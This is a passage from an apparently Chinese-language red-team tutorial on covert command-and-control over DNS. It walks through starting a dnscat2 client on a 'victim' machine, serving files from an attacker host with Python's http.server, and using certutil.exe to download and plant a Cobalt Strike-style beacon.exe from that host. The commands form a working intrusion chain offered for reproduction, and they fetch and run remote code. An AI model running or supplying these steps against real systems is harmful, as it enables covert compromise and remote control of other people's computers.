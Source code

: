 3、客户端（受害者），启动服务

```plain
dnscat2-v0.07-client-win32.exe --secret=000000 log.xxx.xxx --delay 5000
```

[![](assets/1708095858-237f3dca6fcf7b1087ba3f58ddac63cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203236-6b9fa898-e8e5-1.png)

4、远程下载 beacon 执行上线

服务器利用 python 启临时 web 服务

```plain
python3 -m http.server 4444
```

[![](assets/1708095858-271af39071410ce59630a5059d4daca6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203247-721bcd1e-e8e5-1.png)

服务端进入 shell，通过 certutil.exe 远程下载 beacon 上线主机

```plain
certutil.exe -urlcache -split -f http://x.x.x.x:4444/beacon.exe C:\Users\Public\beacon.exe
```

[![](assets/1708095858-745dfec58df50324d8658c991f5f3cc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203257-77e7ead4-e8e5-1.png)

